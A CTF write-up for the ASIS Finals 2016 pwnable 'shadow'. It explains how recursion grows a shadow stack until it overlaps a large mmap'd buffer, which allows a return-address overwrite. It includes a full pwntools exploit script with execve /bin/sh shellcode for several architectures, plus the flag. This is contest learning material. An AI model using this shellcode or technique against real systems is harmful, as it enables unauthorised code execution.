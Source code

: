 ```yaml
---
title: ASIS CTF Finals 2016 -- shadow
tags:
  - CTF
  - ASIS
  - Python
  - Pwnable
  - shellcode
  - heap
categories:
  - write-ups
date: 2016-09-13 15:32:00
---
```

**Category:** pwn
**Points:** 99  

<!-- more -->   
  
32 bit ELF, with no NX, PIE, RELRO protection. The program will first use `mmap` to allocate a range of memory and treat it as a shadow stack, which stores the function return addresses.  
In the main function the program first ask us to input our name (the buffer was placed in the .bss section), then give us two choice:  
  
* Add a beer. This one will first ask us to input the beer description length, then let us input our own beer description.  
* Read/Modify beer desription. Here we first choose one of our beer, and the program will print out the beer description. After that we can choose if we want to modify the beer description or not.  
  
So where's the vulnerability? The program has `malloc` in the add beer function, but it doesn't have `free` in the entire program, so it's probably not UAF. There's a stack overflow in the beer description function though, but the binary has enabled the stack guard protection, so it's kind of hard for us to bypass the canary check. But then I took a good look at the beer description function, and found that we can call the function recursively, by keep entering an invalid choice. This will cause the shadow stack keep "growing up".  
  
And how's that gonna help us to exploit the service? Well, first of all we know that the `malloc` function in libc will call `mmap` instead for the large size memory allocation ( over 0x20000 bytes). Since the add beer function use `malloc` to allocate memory for our beer description, we could try to create a super long beer description. This will make `malloc` call `mmap` instead, and the allocated memory page **will be placed just right before the last mmap memory page, which is the shadow stack.** If we can make the shadow stack keep "growing up", **it will eventually overlapped with the memory page of our beer description**. Since we can control (modify) the beer description, we can then modify the saved return address and change it to the `name` buffer, which we input our shellcode instead.  
  
```python exp_shadow.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()

```
  
After I finshed my exploit, I found that it will timeout due to the crappy internet connection, so I have to upload my exploit to trello and ask my teammate **freetsubasa** to send the payload for me XD  
Anyway the flag is: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`
